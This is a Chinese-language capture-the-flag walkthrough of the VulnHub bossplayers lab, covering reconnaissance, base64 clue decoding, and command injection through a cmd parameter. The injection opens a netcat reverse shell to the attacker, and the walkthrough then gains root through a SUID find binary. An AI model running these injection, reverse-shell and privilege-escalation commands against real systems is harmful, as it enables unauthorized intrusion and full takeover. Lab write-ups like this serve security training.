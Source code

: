 # bossplayersCTF

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：bossplayers（IP：192.168.56.101）

下载：https://www.vulnhub.com/entry/bossplayersctf-1,375/

## Let's go

```
nmap -A 192.168.56.101
```

![](./img/bossplayers-01.png)

```
dirb http://192.168.56.101/
```

![](./img/bossplayers-02.png)

> **浏览后发现Base64编码,为什么判断是Base64呢?请看下面**

![](./img/bossplayers-03.png)
![](./img/bossplayers-04.png)

```
echo 'bG9sIHRyeSBoYXJkZXIgYnJvCg==' | base64 -d
```

![](./img/bossplayers-05.png)

> **翻译为 "哈哈，再努力点，兄弟" , 看来方向错了**
>
> **我们回去首页，看看还有什么线索。功夫不负有心人**

![](./img/bossplayers-06.png)

```
echo 'WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK' | base64 -d
echo 'ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K' | base64 -d
echo 'd29ya2luZ2lucHJvZ3Jlc3MucGhwCg==' | base64 -d
```

![](./img/bossplayers-07.png)

> **感觉像在提示，我们试一下能不能使用命令**

![](./img/bossplayers-08.png)
![](./img/bossplayers-09.png)

```
nc -lp 4444
http://192.168.56.101/workinginprogress.php?cmd=nc 192.168.56.102 4444 -e /bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
find / -perm -u=s -type f 2>/dev/null
```

![](./img/bossplayers-10.png)![](./img/bossplayers-11.png)

> **搜索具有SUID权限的文件,发现find命令具有此权限,我们使用find提权**

```
find / -name test -exec /bin/sh -p \;
cd /root
cat root.txt
echo 'Y29uZ3JhdHVsYXRpb25zCg==' | base64 -d
```

![](./img/bossplayers-12.png)